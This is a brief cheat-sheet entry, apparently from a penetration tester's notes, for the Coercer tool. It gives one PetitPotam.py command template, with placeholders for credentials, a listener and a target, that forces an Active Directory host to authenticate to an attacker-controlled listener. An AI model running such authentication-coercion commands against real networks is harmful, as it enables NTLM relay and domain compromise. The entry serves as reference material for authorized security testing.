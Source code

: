 
# Coercer

% printerbug, Active directory,https://github.com/p0dalirius/Coercer
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## Coercer
```
PetitPotam.py -u <user> -p '<password>' -d <domain> -l <listener> -t <target-ip>
```
